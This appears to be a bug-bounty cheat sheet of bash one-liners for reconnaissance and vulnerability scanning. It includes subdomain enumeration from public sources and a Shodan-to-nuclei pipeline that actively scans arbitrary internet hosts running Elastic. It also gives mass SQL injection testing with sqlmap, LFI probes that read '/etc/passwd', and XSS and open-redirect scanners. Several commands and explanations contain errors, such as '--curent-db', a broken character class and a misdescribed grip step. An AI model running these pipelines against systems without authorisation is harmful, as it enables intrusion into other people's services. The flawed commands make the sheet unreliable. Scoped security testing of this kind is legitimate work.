 # Recon One-Liner

### Dump In-scope Assets from BBPs using repo from [@arkadiyt](https://github.com/arkadiyt/bounty-targets-data)

**HackerOne Programs**

```bash
curl -sL https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/main/data/hackerone_data.json | jq -r '.[].targets.in_scope[] | [.asset_identifier, .asset_type] | @tsv'
```

**BugCrowd Programs**

```bash
curl -sL https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/main/data/bugcrowd_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'
```

**Intigriti Programs**

```bash
curl -sL https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/main/data/intigriti_data.json | jq -r '.[].targets.in_scope[] | [.endpoint, .type] | @tsv'
```

**YesWeHack Programs**

```bash
curl -sL https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/main/data/yeswehack_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'
```

**HackenProof Programs**

```bash
curl -sL https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/main/data/hackenproof_data.json | jq -r '.[].targets.in_scope[] | [.target, .type, .instruction] | @tsv'
```

**Federacy Programs**

```bash
curl -sL https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/main/data/federacy_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'
```

Dump list of all BBP Domains that are in scope

```
curl -sL https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/main/data/domains.txt
```

### Martian Grip

from [@notnci](https://gist.github.com/notnci/e65f9d1a167909f1a3f352aded53998b) with beginner explanation

`shodan download testing 'cloud.region:"us-east-1" 200 product:"Elastic" port:8001'; shodan parse --fields ip_str,port testing.json.gz | tee testing_parsed.out | awk '{print$1":"$2}' | httpx -silent -o testing_httpx.out | nuclei -as -silent -o testing_nuclei.out; cat testing_nuclei.out | awk -F " " '{print $6}' | grip | uniq -u | tee testing_vuln_ips.out | nrich - | tee testing_nrich.out`

```
shodan download testing 'cloud.region:"us-east-1" 200 product:"Elastic" port:8001'; shodan parse --fields ip_str,port testing.json.gz | tee testing_parsed.out | awk '{print$1":"$2}' | httpx -silent -o testing_httpx.out | nuclei -as -silent -o testing_nuclei.out; cat testing_nuclei.out | awk -F " " '{print $6}' | grip | uniq -u | tee testing_vuln_ips.out | nrich - | tee testing_nrich.out
```

* The `shodan download` command is attempting to search for devices in the US East (N. Virginia) region that have a product named "Elastic" and are listening on port 8001. The `parse` command is used to extract certain fields (in this case, `ip_str` and `port`) from the results of the search, which are stored in the file `testing.json.gz`.
* `httpx` is a tool that can be used to perform HTTP requests and analyze the response. In this case, the command is using the `-silent` flag to suppress output and the `-o` flag to write the response to a file called `testing_httpx.out`. The input for this command appears to be the list of IP addresses and ports extracted from the Shodan search results.
* ``[`nuclei`](https://github.com/projectdiscovery/nuclei) is a tool for detecting vulnerabilities and misconfigurations in web applications. The `-as` flag stands for "active scan", which means that the tool will perform various types of requests to the target web application in order to identify potential vulnerabilities. The `-silent` flag suppresses output, and the `-o` flag specifies an output file for the results. The input for this command is the list of IP addresses and ports extracted from the Shodan search results.
* `awk` is a tool for processing text files. The command appears to be extracting the sixth field (`$6`) from the output of the `nuclei` command, which is piped (`|`) to the `grip` command.
* `grip` is a command line tool for rendering local readme files before sending them to GitHub. In this case, it is used to render the output of the `awk` command, which is then passed to `uniq` with the `-u` flag to remove duplicate lines. The resulting list of unique lines is written to the file `testing_vuln_ips.out`.
* [`nrich`](https://gitlab.com/shodan-public/nrich) is a tool for performing OSINT (Open Source Intelligence) on IP addresses. The input for this command appears to be the list of IP addresses and ports extracted from the Shodan search results, and the `-` flag tells the tool to read the input from standard input (stdin). The results are written to the file `testing_nrich.out`.

### Find SQLi at scale

`# collect target urls`\
``\
`subfinder -d site.com -silent - all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a urls`\
``\
`# filter potential SQLi Url`\
`cat urls | gf sqli | tee -a sqli`\
``\
`# run test`\
`while read line; do sqlmap -u $line --parse-errors --curent-db --invalid-logical --invalid-bignum --invalid-string --risk 3; done < sqli`

#### Local File Inclusion

```bash
gau HOST | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

#### Open-redirect

```bash
export LHOST="URL"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

```bash
cat URLS.txt | gf url | tee url-redirect.txt && cat url-redirect.txt | parallel -j 10 curl --proxy http://127.0.0.1:8080 -sk > /dev/null
```

#### XSS

```bash
gospider -S URLS.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee OUT.txt
```

#### Find JavaScript Files

```bash
assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done
```

#### Extract Endpoints from JavaScript

```bash
cat FILE.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```

#### Get CIDR & Org Information from Target Lists

```bash
for HOST in $(cat HOSTS.txt);do echo $(for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; d
one | uniq); done
```

## Finding Submomains

#### Get Subdomains from RapidDNS.io

```bash
curl -s "https://rapiddns.io/subdomain/$1?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | grep http | cut -d '/' -f3 | sed 's/#results//g' | sort -u
```

#### Get Subdomains from BufferOver.run

```bash
curl -s https://dns.bufferover.run/dns?q=.HOST.com | jq -r .FDNS_A[] | cut -d',' -f2 | sort -u
```

```bash
export domain="HOST"; curl "https://tls.bufferover.run/dns?q=$domain" | jq -r .Results'[]' | rev | cut -d ',' -f1 | rev | sort -u | grep "\.$domain"
```

#### Get Subdomains from Riddler.io

```bash
curl -s "https://riddler.io/search/exportcsv?q=pld:HOST" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u 
```

#### Get Subdomains from VirusTotal

```bash
curl -s "https://www.virustotal.com/ui/domains/HOST/subdomains?limit=40" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```

#### Get Subdomain with cyberxplore

```
curl https://subbuster.cyberxplore.com/api/find?domain=HOST -s | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" 
```

#### Get Subdomains from CertSpotter

```bash
curl -s "https://certspotter.com/api/v1/issuances?domain=HOST&include_subdomains=true&expand=dns_names" | jq .[].dns_names | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u 
```

#### Get Subdomains from Archive

```bash
curl -s "http://web.archive.org/cdx/search/cdx?url=*.HOST/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u
```

#### Get Subdomains from JLDC

```bash
curl -s "https://jldc.me/anubis/subdomains/HOST" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```

#### Get Subdomains from securitytrails

```bash
curl -s "https://securitytrails.com/list/apex_domain/HOST" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | grep ".HOST" | sort -u
```

#### Bruteforcing Subdomain using DNS Over

```
while read sub; do echo "https://dns.google.com/resolve?name=$sub.HOST&type=A&cd=true" | parallel -j100 -q curl -s -L --silent  | grep -Po '[{\[]{1}([,:{}\[\]0-9.\-+Eaeflnr-u \n\r\t]|".*?")+[}\]]{1}' | jq | grep "name" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | grep ".HOST" | sort -u ; done < FILE.txt
```

#### Get Subdomains With sonar.omnisint.io

```
curl --silent https://sonar.omnisint.io/subdomains/HOST | grep -oE "[a-zA-Z0-9._-]+\.HOST" | sort -u 
```

#### Get Subdomains With synapsint.com

```
curl --silent -X POST https://synapsint.com/report.php -d "name=https%3A%2F%2FHOST" | grep -oE "[a-zA-Z0-9._-]+\.HOST" | sort -u 
```

#### Get Subdomains from crt.sh

```bash
curl -s "https://crt.sh/?q=%25.HOST&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | sort -u
```

#### Sort & Tested Domains from Recon.dev

```bash
curl "https://recon.dev/api/search?key=apikey&domain=HOST" |jq -r '.[].rawDomains[]' | sed 's/ //g' | sort -u | httpx -silent
```

#### Subdomain Bruteforcer with FFUF

```bash
ffuf -u https://FUZZ.HOST -w FILE.txt -v | grep "| URL |" | awk '{print $4}'
```

#### Find Allocated IP Ranges for ASN from IP Address

```bash
whois -h whois.radb.net -i origin -T route $(whois -h whois.radb.net IP | grep origin: | awk '{print $NF}' | head -1) | grep -w "route:" | awk '{print $NF}' | sort -n
```

#### Extract IPs from a File

```bash
grep -E -o '(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)' file.txt
```


